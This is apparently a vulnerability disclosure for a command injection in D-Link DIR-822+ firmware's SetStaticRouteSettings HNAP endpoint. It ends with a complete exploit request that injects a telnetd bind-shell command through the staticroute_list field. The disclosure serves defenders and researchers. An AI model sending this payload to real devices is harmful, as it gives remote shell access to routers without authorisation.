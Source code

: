 ## DIR-822+ Command Injection

### Overview

* Manufacturer's address：http://www.dlink.com.cn/
* Firmware download address ：http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-822%2B

### Affected version

D-Link DIR-822+ V1.0.5 was found to contain a command injection in `SetStaticRouteSettings` function of `prog.cgi`, which allows remote attackers to execute arbitrary commands via shell

![image-20240421163220274](./img/4.png)

### Vulnerability details

Vulnerability occurs in `/HNAP1/SetStaticRouteSettings`. Attackers can control `v17` by setting the `staticroute_list`.

![image-20240421163827190](./img/1.png)

Split this part of data with comma and pass the value to `v10-v13`, which represents the `network address`, `network mask`, `gateway` and `interface`.

![image-20240421163827190](./img/2.png)

Then pass `v10-13` in the` sub_437028` function.

![image-20240421163827190](./img/5.png)

This part of data was directly passed in system without any filtering

![image-20240421163827190](./img/6.png)

Based on the cause of the vulnerability, attackers can arbitrarily execute the command by setting the `staticroute_list`. 

### EXP

```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
Content-Length: 183
Accept: application/json
HNAP_AUTH: 5E736BA3725CFF7870DC7A1B6B9512E6 1703160655517
SOAPACTION: "http://purenetworks.com/HNAP1/SetStaticRouteSettings"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/json
Origin: http://192.168.0.1
Referer: http://192.168.0.1
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: uid=akiKeInk; PrivateKey=880D5E30644E82353544D9496CA35B50; timeout=51
Connection: close

{"SetStaticRouteSettings":{"staticroute_list":"`telnetd -l /bin/sh -p 8888 -b 0.0.0.0`,255.255.255.255,192.168.0.1,wan"}}
```

![image-20240421163827190](./img/3.png)
